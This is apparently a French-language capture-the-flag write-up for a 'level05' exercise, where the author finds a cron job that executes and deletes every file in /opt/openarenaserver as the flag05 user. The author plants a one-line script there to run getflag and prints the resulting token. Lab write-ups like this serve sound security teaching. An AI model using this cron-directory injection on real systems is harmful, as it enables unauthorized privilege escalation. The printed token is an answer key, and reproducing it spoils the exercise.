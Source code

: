 ls -la
rien

parcontre je viens de remarquer que j'ai eux un message lors de la connection
level05@[ip]'s password: 
You have new mail.

je vais chercher comment voir les mail
j'ai trouver ca /var/spool/mail/
donc je fais ls /var/spool/mail/

je trouve un fichier level05 qui contien
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

c une commande pour executer un sh dans /usr/sbin/openarenaserver
je pense
je vais voir ce qu'il y a dans ce dossier

ce n'est pas un dossier mais un fichier qui contient 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

a vue d'oeil il rm -f tous les fichier dans le dossier mais avent ca il l'execute 

donc on peut cree un petit script qui nous donne le flag

vue qu'il le delete presque instante il faut le cree d'un coup avec un echo
echo "/bin/getflag > /tmp/result" > /opt/openarenaserver/script

donc in dit fait getflag met le result dans /tmp/result et cescript met le dans /opt/openarenaserver/script

et apres on cat /tmp/result
et voila 
Check flag.Here is your token : viuaaale9huek52boumoomioc